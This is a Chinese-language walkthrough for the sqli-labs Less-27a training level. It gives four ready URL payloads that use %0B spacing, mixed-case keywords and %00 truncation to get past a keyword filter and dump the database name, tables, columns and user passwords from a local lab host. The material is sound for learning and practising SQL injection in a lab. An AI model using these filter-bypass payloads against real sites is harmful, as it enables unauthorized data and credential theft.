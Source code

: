 ```yaml
---
title: Less - 27a
date: 2023-03-16T14:39:55Z
lastmod: 2023-03-16T14:58:28Z
---
```


# Less - 27a

---

# 通关教程

---

## 1、判断闭合

---

通过观察源码可以看到该关卡的闭合方式为"，如下

​![image](assets/image-20230316144539-4eqmfjj.png)​

---

## 2、查看当前的数据库名

---

```bash
http://192.168.225.132/sqli-labs/Less-27a/?id=0"%0BunIon%0BSelEcT%0B1,2,database();%00
```

​![image](assets/image-20230316145417-3jznh1h.png)​

## 3、查看数据表名

---

```bash
http://192.168.225.132/sqli-labs/Less-27a/?id=0"%0BunIon%0BSelEcT%0B1,2,(sELect (group_concat(table_name)) from (information_schema.tables) where (table_schema='security'));%00
```

​![image](assets/image-20230316145623-m8quf33.png)​

---

## 4、查看users表下的所有字段

---

```bash
http://192.168.225.132/sqli-labs/Less-27a/?id=0"%0BunIon%0BSelEcT%0B1,2,(sELect (group_concat(column_name)) from (information_schema.columns) where (table_name='users'));%00
```

​![image](assets/image-20230316145724-hgibdik.png)​

---

## 5、查看username,password字段的值

---

```bash
http://192.168.225.132/sqli-labs/Less-27a/?id=0"%0BunIon%0BSelEcT%0B1,2,(sELect (group_concat(username,password)) from (security.users));%00
```

​![image](assets/image-20230316145820-tvyzsle.png)​
